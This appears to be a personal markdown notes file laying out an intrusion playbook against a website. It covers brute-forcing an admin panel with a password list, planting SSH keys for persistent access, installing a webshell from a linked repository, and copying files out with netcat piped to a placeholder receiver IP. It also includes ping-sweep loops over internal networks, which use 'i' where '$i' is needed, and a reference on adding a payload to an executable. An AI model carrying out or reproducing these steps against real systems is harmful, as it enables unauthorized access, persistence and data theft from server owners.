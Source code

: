 # Steps:
get emails from site
find admin panel
use password list to get access

## steal ssh keys
### Create new SSH key
```
ssh-keygen 
chmod 700 ~/.ssh && chmod 600 ~/.ssh/authorized_keys
```
Export the private key to any machine I want to use to conenct again. 
### use ssh key to login
To use ssh-copy-id, pass your username and the IP address of the server you would like to access:
```
ssh-copy-id your_username@192.0.2.0
ssh your_username@192.0.2.0
```
### upload keys
In another terminal on your local machine, use scp to copy the contents of your SSH public key (id_rsa.pub) into the authorized_keys file on your server. Substitute in your own username and your server’s IP address:
```
scp ~/.ssh/id_rsa.pub your_username@192.0.2.0:~/.ssh/authorized_keys
```
### server: 
1. .ssh/authorized_keys
### client: 
1. .ssh/id_rsa – Holds the private key for the client
2. .ssh/id_rsa.pub – Holds the public key for the client
3. .ssh/known_hosts – Holds a list of host signatures of hosts that the client has previously connected to



## install webshell for persistence 
https://github.com/tennc/webshell

## NetCat File Transfer:
nc is basically a built-in tool from any UNIX-like systems (even embedded systems), so it's perfect for "quick and temporary way to transfer files". open a listen on port 12345, waiting for data.

1. on the receiver side, run:
```
nc -l 12345 | tar -xf -
```
2. on the sender side:
```
tar -cf - ALL_FILES_YOU_WANT_TO_SEND ... | nc $RECEIVER_IP 12345
```
2a. 
You can also put pv in the middle to monitor the progress of transferring:
```
tar -cf - ALL_FILES_YOU_WANT_TO_SEND ...| pv | nc $RECEIVER_IP 12345
```
After the transferring is finished, both sides of nc will quit automatically, and job done.

### scan the Interior Network: 
for i in {1..254}; do ping -c 1 192.168.1.i; done 

for i in {1..254}; do for x in {1..254}; do ping -c 1 10.0.x.i; done; done 


# References:
https://sathisharthars.com/2014/06/04/create-and-add-a-payload-in-existing-executable/
